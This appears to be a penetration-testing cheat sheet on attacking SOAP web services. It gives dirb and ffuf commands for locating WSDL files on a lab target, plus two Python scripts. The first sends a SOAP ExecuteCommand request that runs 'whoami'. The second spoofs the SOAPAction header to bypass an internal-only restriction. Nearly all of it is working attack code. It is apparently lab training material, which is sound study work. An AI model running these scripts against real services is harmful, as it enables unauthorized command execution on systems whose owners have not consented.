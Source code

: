 #### WSDL file location
```bash
dirb http://10.129.164.82:3002

+ http://<TARGET IP>:3002/wsdl (CODE:200|SIZE:0)                            
DOWNLOADED: 4612 - FOUND: 1
```

If curl `<ip>/wsdl` response is empty:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.129.164.82:3002/wsdl?FUZZ' -fs 0 -mc 200
```

`curl http://10.129.164.82:3002/wsdl?wsdl`

File may be found at example.wsdl, ?wsdl, /example.disco, ?disco 

##### Request example
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
##### SOAPAction spoofing
If the request abive is restricted to the internal network only, we can bypass it:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
